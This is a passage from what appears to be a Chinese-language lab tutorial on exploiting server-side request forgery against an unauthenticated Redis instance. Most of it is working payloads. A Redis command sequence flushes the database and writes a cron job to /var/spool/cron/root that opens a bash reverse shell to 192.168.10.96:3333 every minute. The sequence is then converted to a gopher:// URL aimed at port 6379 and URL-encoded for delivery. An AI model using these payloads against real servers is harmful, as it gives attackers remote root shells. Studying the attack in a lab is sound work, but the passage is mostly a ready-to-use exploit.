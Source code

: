 ![image-20220408104321742](../../../images/image-20220408104321742.png)

计划任务为每隔一分钟执行一次反弹，最多等待一分钟即可看到反弹回来的shell，表明测试语句可以执行攻击成功

测试机`192.168.11.192`计划任务：

![image-20220408105403431](../../../images/image-20220408105403431.png)

nc反弹监听：

![image-20220408104539792](../../../images/image-20220408104539792.png)

#### 7.4.8 将攻击流量转换为gopher协议格式

复制socat抓取到的攻击流量，保存到`ssrftool`工具包1.txt中

![image-20220408105703777](../../../images/image-20220408105703777.png)

#### 7.4.9 格式化攻击语句

将攻击语句格式化为`gopher`协议格式

```
python 1.py 1.txt
```

```
*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$7%0d%0afarmsec%0d%0a$59%0d%0a%0a%0a*/1 * * * * bash -i >&/dev/tcp/192.168.10.96/3333 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a%0a
```

![image-20220408105915550](../../../images/image-20220408105915550.png)

#### 7.4.10 构造gopher格式攻击语句

将格式化后攻击语句开头添加攻击目标`gopher://192.168.11.203:6379/_`

```
gopher://192.168.11.203:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$7%0d%0afarmsec%0d%0a$59%0d%0a%0a%0a*/1 * * * * bash -i >&/dev/tcp/192.168.10.96/3333 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a%0a
```

#### 7.4.11 攻击语句url编码

url编码：

```
gopher%3A%2F%2F192.168.11.203%3A6379%2F_*1%250d%250a%248%250d%250aflushall%250d%250a*3%250d%250a%243%250d%250aset%250d%250a%247%250d%250afarmsec%250d%250a%2459%250d%250a%250a%250a*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F192.168.10.96%2F3333%200%3E%261%250a%250a%250a%250d%250a*4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a*4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a*1%250d%250a%244%250d%250asave%250d%250a%250a
```
